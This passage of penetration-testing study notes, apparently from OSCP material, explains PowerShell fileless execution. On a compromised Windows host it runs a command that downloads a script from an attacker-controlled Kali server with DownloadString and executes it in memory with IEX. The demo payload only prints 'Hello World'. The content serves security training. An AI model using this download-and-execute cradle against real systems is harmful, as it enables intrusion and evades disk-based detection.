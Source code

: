 • This is done by combining the DownloadString method withthe Invoke-Expression cmdlet (IEX).

• To demonstrate this, we will create a simple PowerShell script on our Kali machine (Listing 482):

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/67.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/68.jpg)




![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/69.jpg)

kali@kali:/var/www/html$ sudo cat helloworld.ps1Write-Output "Hello World"
# Listing 482 - The Hello World script hosted on our web server

• Next, we will run the script with the following command on our compromised Windows machine 

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/70.jpg)

C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('
http://10.11.0.4/helloworld.ps1')
Hello World


• The content of the PowerShell script was downloaded from our Kali machine and successfullyexecuted without saving it to the victim hard disk.


